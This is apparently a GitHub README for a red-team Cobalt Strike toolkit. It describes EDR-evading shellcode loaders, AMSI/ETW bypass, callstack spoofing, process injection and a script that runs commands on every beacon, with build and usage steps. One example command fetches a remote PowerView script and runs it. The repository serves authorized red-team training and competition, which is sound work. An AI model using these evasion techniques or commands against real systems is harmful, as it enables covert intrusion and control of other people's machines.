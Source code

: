 # cobaltstrike
Various resources to enhance Cobalt Strike's functionality and its ability to evade antivirus/EDR detection. Includes the custom tooling I used when pursuing the Certified Red Team Lead (CRTL) certification.

### Contents
#### Loader
- [loader](loader/) ⇒ used to bypass Windows Defender and Elastic EDR detections to run Cobalt Strike beacon shellcode `<protocol>_x64.xprocess.bin`
#### Profile
- [crtl.profile](profile/crtl.profile) ⇒ malleable C2 profile used on CRTL exam, based on [webbug.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)
- [mwccdc.profile](profile/mwccdc.profile) ⇒ malleable C2 profile used for MWCCDC regionals in 2024, based on [microsoftupdate_getonly.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/microsoftupdate_getonly.profile)
#### Kits
- [sleepmask](kits/sleepmask/) ⇒ Cobalt Strike sleep mask kit modifications to spoof msedge.exe legitimate thread callstack
- [process_inject](kits/process_inject/) ⇒ Cobalt Strike process injection kit modifications that implement NtMapViewOfSection technique - not necessary since this option is available in the malleable C2 profile, but it's a good example of how to use kernel32.dll and ntdll.dll Windows API function calls to create your own injection. I found concrete examples of this to be severely lacking on the internet.
#### Post-Ex
- [powerpick.cs](post-ex/powerpick.cs) ⇒ C# code for running unmanaged PowerShell, providing the PowerShell command as an argument(s) - compatible with inline-x.cna
- [inline-x.cna](post-ex/inline-x.cna) ⇒ modified [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) cna file that makes running .NET assemblies and PowerShell inline easier
- [command-all.cna](post-ex/command-all.cna) ⇒ execute `run` or `shell` command on *all* active Cobalt Strike beacons, without having to interact with each one individually

**Note:** When building powerpick.cs, you'll have to include a reference to **System.Management.Automation.dll**, which is located in `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\<version>`

### Loader Usage
#### Two executable types:
1. EXE ⇒ standard Windows executable
2. Service ⇒ Windows service executable
**Note:** beaconsvc.cpp gets caught by Elastic static detection when compiled, so you might have to modify it. You can also run the standard EXE as a service, and it'll throw an error but still spawn the beacon.
#### Three loader variants:
1. Download Stager ⇒ download shellcode from file hosted on Cobalt Strike team server over HTTPS
2. Read Stager ⇒ read shellcode from disk
3. Stageless ⇒ include shellcode directly in PE as a resource (in .rsrc section) - requires encoding the shellcode so it's not caught by Elastic
#### Building the loader
1. (stageless only) generate encoded Cobalt Strike shellcode file with [encoder.py](loader/helpers/encoder.py) - see comments for more info
2. open [.sln](loader/loader.sln) file in [Visual Studio](https://visualstudio.microsoft.com/free-developer-offers/)
3. (stageless only) follow instructions in [encoder.py](loader/helpers/encoder.py) to include encoded shellcode file as a resource
4. select your desired build
5. Build Solution

### Inline X Usage
1. Change `$powerpickPath` to specify the path of your unmanaged PowerShell exe (built from [powerpick.cs](post-ex/powerpick.cs))
2. Change `$etw` and `$amsi` as you see fit - I wanted it to always bypass AMSI and ETW, which is why I set these values to 1
3. Load script into Cobalt Strike
4. Execute .NET assembly inline with `x execute-assembly <exe> <args>`
5. Execute unmanaged powershell inline with `x powerpick <powershell>`
   - I made this compatible with `powershell-import`, but I noticed that using this method of importing scripts generally gets detected by EDR. If you'd like to remove this functionality altogether, comment/remove lines 257 and 258.
   - As an alternative, use `--import <script>` (eg. `x --import https://example.com/PowerView.ps1 powerpick Get-Domain`). You can specify a local file on disk or remotely hosted file with http/https. This only supports *one* script. I'm too lazy to extend the functionality to support multiple scripts when one is usually all you need.

**Note:** I commented out the portions of the script that parse arguments in single (') and double quotes (") as a single argument because most of my tooling handles or requires these quotes. For example, the unmanaged PowerShell implementation [powerpick.cs](post-ex/powerpick.cs) takes arguments passed in, converts them to one string, and runs that string. Treating multiple words as a single argument in PowerShell commands thus requires passing in those quotes as-is. You may run into instances where you *do* need to parse arguments in quotes as a single argument, much like you would when running the .NET executable in a terminal. If this is the case, you are welcome to uncomment the code portions starting on line 87 and reload the script.

### Command All Usage
1. Load script into Cobalt Strike
2. Open Script Console
3. Execute `run` on all active beacons with `run_all <exe> <args>`
4. Execute `shell` on all active beacons with `shell_all <command>`

### Credit
My experience with AV/EDR evasion techniques and Cobalt Strike comes from the following:
- [Zero-Point Security Red Team Ops II](https://training.zeropointsecurity.co.uk/courses/red-team-ops-ii)
- [Maldev Academy](https://maldevacademy.com)
- [Midwest Regional Collegiate Cyber Defense Competition](https://www.cssia.org/mwccdc/) (I'm a red team volunteer)

I also recommend checking out the [Sektor7 Institute](https://institute.sektor7.net) courses

### Copyright Disclaimer
I was careful to avoid any copyright infringement with the resources I publicly provided in this repo. Here are two areas where copyright might come into question:
1. I include my modifications to the Cobalt Strike process injection and sleep mask kits from Fortra, which are closed-source. However, I only provided files to which I made modifications, and I replaced all portions of the code that were not my own with a comment stating *redacted*. Should you choose to use these resources, you'll have to copy my code portions over from this repo to the corresponding files in the kits.
2. In my loader, I included code taken directly from the Zero-Point Security Red Team Ops II course. However, this code is publicly available and easily-obtainable online as well. Telling ChatGPT to "write C++ code using WinHTTP to download a file and save it to an std::vector<BYTE>" yields almost the exact same code for the Download function, and the NtMapViewOfSection technique is [publicly documented](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection) in various locations, making use of the same Windows API function calls in the same order.
